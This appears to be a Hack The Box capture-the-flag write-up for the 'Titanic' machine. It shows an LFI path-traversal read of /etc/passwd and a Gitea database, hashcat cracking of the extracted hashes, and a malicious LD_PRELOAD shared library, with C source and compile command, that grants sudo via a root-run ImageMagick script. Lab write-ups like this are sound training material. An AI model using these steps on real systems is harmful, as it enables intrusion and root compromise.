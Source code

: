 CTF Writeup - Titanic (Hack The Box Seasonal)

💪 Machine Name: Titanic
![image (1)](https://github.com/user-attachments/assets/dd4bd9c2-1695-4c22-a8d4-ce05e22767e1)

Platform: Hack The BoxIP Address: 10.10.11.55Difficulty: Easy/Medium  (Seasonal)

🛍️ Overview

Titanic is a Seasonal Hack The Box machine with a simple LFI foothold, Gitea user extraction and hash cracking, and a subtle privilege escalation via LD_PRELOAD on a vulnerable ImageMagick identify script. This box heavily tests your patience and understanding of ImageMagick RCE vectors.

🔍 Enumeration

🔎 Nmap

nmap -p- 10.10.11.55 --min-rate 10000
nmap -p 22,80 10.10.11.55 -sCV -oN nmapscan

Results:

Ports: 22/tcp (OpenSSH 8.9), 80/tcp (Apache 2.4.52)

Webserver: http://titanic.htb/

🌐 Web Enumeration

Main page has a "booking form" that submits to /download?ticket=XYZ.json.

Simple LFI works:

GET /download?ticket=../../../../etc/passwd

→ Reveals /etc/passwd confirming LFI.

📚 Subdomain Fuzzing

ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb -H "Host: FUZZ.titanic.htb"

Finds:

dev.titanic.htb

📢 Gitea Source Leak

Git repo on http://dev.titanic.htb revealed:

git clone https://gitea.titanic.htb/developer/flask-app.git

Also from /etc/hosts:

10.10.11.55 titanic.htb dev.titanic.htb gitea.titanic.htb

💳 Gitea DB Dump and Hash Extraction

Using LFI, dumped:

GET /download?ticket=../../../home/developer/gitea/data/gitea/gitea.db

Cracked hashes:

wget https://gist.githubusercontent.com/h4rithd/.../gitea2hashcat.py
python3 gitea2hashcat.py gitea.db > hashes.txt

hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt

Result:

developer / 25282528

🚚 Developer Shell

ssh developer@titanic.htb

User developer has no sudo.

SUID/Capabilities not very useful.

But found interesting script:

cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

We have write access to /opt/app/static/assets/images

/usr/bin/magick identify runs as root (via cron/systemd)

🔧 Privilege Escalation

❌ ImageMagick RCE attempts

Tried:

SVG with ephemeral:

XMP Comment trick

ICC Profile injection

All failed → ImageMagick likely patched or restricted.

💪 Final working method: LD_PRELOAD abuse

Compiled malicious .so:

// a.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}

gcc -fPIC -shared -o /opt/app/static/assets/images/libxcb.so.1 a.c -nostartfiles

Trigger:

When identify_images.sh runs, libxcb.so.1 is picked up by /usr/bin/magick identify → privilege escalation.

Now:

sudo cat /root/root.txt
5a9613d27f17e6a182101e75xxxx

🧪 Lessons Learned

LFI enumeration → real-world example.

Gitea DB hash cracking → how to format & crack.

ImageMagick identify abuse → creative RCE through LD_PRELOAD.

Dealing with modern ImageMagick restrictions → SVG, ICC, XMP may be patched.

Writeup by inksecGitHub: https://github.com/inkedqt
